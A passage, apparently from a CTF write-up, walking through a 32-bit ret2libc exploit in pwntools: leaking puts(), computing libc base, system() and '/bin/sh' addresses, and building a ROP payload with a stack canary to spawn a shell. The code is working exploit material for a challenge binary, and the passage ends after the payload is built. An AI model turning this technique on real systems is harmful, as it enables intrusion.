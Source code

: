 ```python
leak_data = p.recvn(5)
addr_bytes = leak_data[-4:]

# print nicely
print("Leak:", ''.join(f'\\x{b:02x}' for b in addr_bytes))

puts_leak = u32(addr_bytes)
print("Leaked puts address:", hex(puts_leak))
```

**Result:** The actual address of `puts()` in memory, which we can use to calculate the libc base.

---



4. **Compute `system()` and `/bin/sh` Addresses**

this is the easiest part for local pwn challange but my god i hate doing this in remote challanges we will come to remote challange later

Using the local libc ELF:

```python
binsh_offset = next(libc.search(b'/bin/sh'))
libc_base    = puts_leak - libc.symbols['puts']

system_addr  = libc_base + libc.symbols['system']
print("system() address:", hex(system_addr))

binsh_addr   = libc_base + binsh_offset
print("'/bin/sh' address:", hex(binsh_addr))
```

* `libc_base` is the start of libc in memory.
* `system_addr` is computed relative to `libc_base`.
* `binsh_addr` points to the string `"/bin/sh"` in libc.

---



5. **Constructing the Final ROP Chain** – to execute `system("/bin/sh")` and spawn a shell.

Construct the **final ROP chain**:

```python
p.recvuntil(b"What number would you like to guess?")
p.sendline(magic_number)   # trigger win() again

payload = (
    b"A"*512 +
    p32(canary) +
    b"A"*12 +
    p32(system_addr) +
    p32(elf.functions['win'].address) +
    p32(binsh_addr)
)

```

